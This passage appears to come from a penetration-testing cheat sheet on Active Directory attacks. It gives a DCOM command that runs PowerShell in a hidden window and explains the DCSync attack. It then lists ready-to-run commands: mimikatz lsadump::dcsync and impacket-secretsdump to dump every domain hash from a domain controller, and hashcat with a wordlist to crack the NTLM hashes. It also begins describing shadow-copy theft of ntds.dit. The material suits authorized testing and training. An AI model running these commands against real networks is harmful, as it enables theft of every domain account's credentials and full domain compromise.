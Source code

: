```powershell
$dcom.Document.ActiveView.ExecuteShellCommand("powershell",$null,$command,"7")
# ExecuteShellCommand accepts 4 parameters:
# Command, Directory, Parameters, and WindowState (7 is hidden).
```


## 5.4 Active Directory Persistence

### 5.4.1 Domain Controller Synchronization (DCSync)

DCSync lets you remotely dump the hashes from a domain controller's `ntds.dit` file.

When multiple DCs are in use for redundancy, AD uses the Directory Replication Service (DRS) Remote Protocol to replicate (synchronize) these redundant DCs (e.g. using `IDL_DRSGetNCChanges` API). The DC receiving the sync request does not check that the request came from a known DC, only that the SID making the request has appropriate privileges.

To launch such a replication, a user needs to have the *Replicating Directory Changes*, *Replicating Directory Changes All*, and *Replicating Directory Changes in Filtered Set* rights. By default, members of the *Domain Admins*, *Enterprise Admins*, and *Administrators* groups have these rights assigned. If we get access to any user account with these rights, we can impersonate a DC and perform the DCsync attack. The end result is the target DC will send the attacker copies of any data he requests.

Performing dcsync attack:

```powershell
# From inside mimikatz shell
# grab all hashes from DC
lsadump::dcsync
# grab hashes of specific user
lsadump::dcsync /user:corp\Administrator

# Kali: use impacket
# full dump of hashes
# you can use '-hashes LMHASH:NTHASH' for auth instead of password (or omit LMHASH)
impacket-secretsdump -just-dc -outputfile dcsync DOMAIN/ADMINUSER:PASSWORD@DC_IP
# grab specific user's hashes
impacket-secretsdump -just-dc-user -outputfile dcsync USER DOMAIN/ADMINUSER:PASSWORD@DC_IP
```

Crack dumped NTLM hashes:

```sh
❯ hashcat -m 1000 -w3 --force -r /usr/share/hashcat/rules/best64.rule --user dcsync.ntds /usr/share/wordlists/rockyou.txt
```


### 5.4.2 Volume Shadow Copy

Domain Admins can abuse shadow copies to obtain a copy of the `ntds.dit` file (the Active Directory database, containing all user credentials).

A Shadow Copy, also known as Volume Shadow Service (VSS) is a Microsoft backup technology that allows creation of snapshots of files or entire volumes. Shadow copies are managed by the binary `vshadow.exe`, part of the Windows SDK. They can also be created using WMI.
